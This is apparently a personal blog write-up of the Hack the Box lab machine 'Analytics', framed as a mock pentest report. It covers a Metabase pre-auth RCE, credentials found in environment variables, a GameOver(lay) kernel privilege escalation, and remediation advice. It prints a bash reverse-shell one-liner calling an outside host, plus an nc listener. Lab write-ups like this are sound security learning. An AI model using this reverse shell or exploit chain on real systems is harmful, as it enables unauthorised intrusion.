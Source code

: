 ```yaml
---
draft: false
title: "Hack the Box #2 - Analytics w/o Metasploit"
date: 2024-03-06T17:27:24+00:00
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
cover:
  image: hack_the_box_2_analytics.png
  alt: hack_the_box_2_analytics.png
---
```

This is my first Hack the Box machine [pwned](https://www.hackthebox.com/achievement/machine/1695260/569) and it’s called Analytics. Here is a mock write-up of the lab because as we all know. It’s great being able to pwn things but if we can’t communicate the remediations to what we have done then there is no benefit past that juicy dopamine hit when you get root 😀

## Executive summary

The attacker achieved an initial foothold by abusing a pre-authentication remote code execution exploit to achieve a reverse shell. User credentials we then found in the environment variables and used to establish a user shell. This can be prevented by upgrading Metabase to the latest version and removing the environment variables with user account details if possible as a secondary objective.

Privilege was then escalated by using 2 kernel exploits from 2023 chained together. These can be remedied by upgrading our kernel version.  
The general recommendation is to update the software mentioned to later versions.

---
## Technical Findings
### Enumeration

Starting as per with a good old Nmap

![HackerImage](https://i.imgur.com/D6fORW7.png?resize=798%2C212&ssl=1#center)

Nothing of too much interest, let’s take a closer look at the website.

For this will need to put <http://analytical.htb/> in my hosts file and run this puppy through Burp suite

There isnt much here but the login reroutes us to <http://data.analytical.htb/>. Adding that to our hosts file gets us this lovely Metabase login screen

![HackerImage](https://i.imgur.com/OaJ9aIR.png?resize=504%2C552&ssl=1#center)

Lets dive into Metabase. There are default credentials available but those don't work. Looking for explicit exploits on the internet we find this [lovely git repo](https://github.com/Pyr0sec/CVE-2023-38646).

It allows for pre-auth remote code execution, this is exactly what we want. For this we need the setup token that can be found at the path `/api/session/properties`

Hitting this endpoint gets us a wonderful .json properties file. And within it we find the value of `setup-token` required for the execution of the exploit

![HackerImage](https://i.imgur.com/xVUvF7H.png?resize=1048%2C669&ssl=1#center)

---
### Exploitation

Using this wonderful script combined with the token we can initialize a reverse shell using the following command, oh and also don’t forget the listener on the other side:

`bash -i >& /dev/tcp/10.10.14.26/4444 0>&1<br></br>nc -nvlp 4444`

![HackerImage](https://i.imgur.com/HrFdCZ7.png?resize=1136%2C160&ssl=1#center)

The server returns an error message but we got the juicy juicy shell

![HackerImage](https://i.imgur.com/jmRtvHp.png?resize=537%2C183&ssl=1#center)

But sadly there is no flag in `/home/metabase` and mind you we are looking for both a user flag and a root flag… So is this not the user we are meant to be???

After a little digging around on this box for longer than I care to admit… I enumerated everything from cron jobs, running processes, kernel versions, installed apps, and much more looking for either user credentials or a route to escalate my privilage. I looked where I should have looked almost right away `env`

![HackerImage](https://i.imgur.com/S6NJTdc.png?resize=559%2C290&ssl=1#center)

And there is the puppy. META\_USER and META\_PASS. Now could these be used to log in to the open SSH port on 22?

![HackerImage](https://i.imgur.com/GTjtfdt.png?resize=652%2C152&ssl=1#center)

And it works! With our lovely user flag right there.

![HackerImage](https://i.imgur.com/woWFcy3.png?resize=711%2C38&ssl=1#center)

---
### Privilege Escalation

Now to get root. I came back to this bad boy while working in a coffee shop and used the pwnbox provided by Hack the Box as my attack box. Let’s see what we can do.

There are several things I tried to look through. What binaries run within the admin context? Nope… Perhaps some cron jobs? Nope

Well what is the kernel and OS we are running on?

![HackerImage](https://i.imgur.com/JLwNR2a.png?resize=799%2C70&ssl=1#center)

After a Google search for **linux 6.2.0-25-generic 22.04.2-ubuntu privilege escalation**, we found an interesting privilege escalation exploit called **GameOver(lay)** here is a link to a [POC on Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The script is a massive one-liner so let’s copy that bad boy onto our target machine and give it execute permissions

![HackerImage](https://i.imgur.com/UlR3Ri3.png?resize=822%2C353&ssl=1#center)

This exploit makes use of two seperate vulnerabilities namely [**CVE-2023-2640**](https://www.cvedetails.com/cve/CVE-2023-2640/) and [**CVE-2023-32629**](https://www.cvedetails.com/cve/CVE-2023-32629/). Lets execute this bad boy!

![HackerImage](https://i.imgur.com/emOZ2X4.png?resize=741%2C112&ssl=1#center)

ROOT BABY!!! and we find a beautiful flag right where we want her!

![HackerImage](https://i.imgur.com/TaAKD3d.png?resize=601%2C47&ssl=1#center)

#### Conclusion

Both the exploitation of the Metabase and Kernel exploits can be solved with simply updating the respective software and operating system.

This was a fun lab and dont worry there are plenty more to come. Oh and if you have read this far… Go touch some grass 😀